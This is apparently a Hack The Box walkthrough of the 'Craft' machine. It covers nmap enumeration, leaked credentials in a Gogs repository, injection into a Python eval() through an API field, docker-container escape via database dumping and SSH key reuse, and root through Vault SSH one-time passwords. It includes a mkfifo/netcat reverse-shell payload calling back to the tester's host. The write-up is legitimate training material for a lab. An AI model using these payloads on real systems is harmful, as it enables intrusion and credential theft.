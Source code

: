 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb
![homepage](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/gogs_craft.png)
Repository housing the code and content for api.craft.htb:
![commits](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh’s credentials were accidentally commited and removed: 
![dinesh_creds](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test1.png)

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp
Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_secrets_list.png)

Gilfoyle’s OTP setup:

![otp_setup](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
